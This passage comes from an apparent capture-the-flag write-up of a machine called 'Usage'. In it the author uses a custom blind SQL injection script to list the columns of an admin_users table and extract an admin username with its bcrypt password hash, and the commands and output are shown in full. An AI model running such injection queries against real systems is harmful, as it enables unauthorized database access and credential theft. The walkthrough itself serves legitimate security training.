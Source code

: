 ![nothing new with xander password](/assets/images/Usage/nothing-new-with-xander-password.png)

So I will go forward the admin_users table and dump its columns:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='admin_users'"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='admin_users'
[+] Length of select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='admin_users': 69
[+] select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='admin_users' extraction: avatar,created_at,id,name,password,remember_token,updated_at,username

[+] Finished!
```

Columns "username" and "password" results interesting to me so I will dump them:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat(BINARY username,':',BINARY password) from usage_blog.admin_users"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat(BINARY username,':',BINARY password) from usage_blog.admin_users
[+] Length of select group_concat(BINARY username,':',BINARY password) from usage_blog.admin_users: 66
[+] select group_concat(BINARY username,':',BINARY password) from usage_blog.admin_users extraction: admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2

[+] Finished!
```
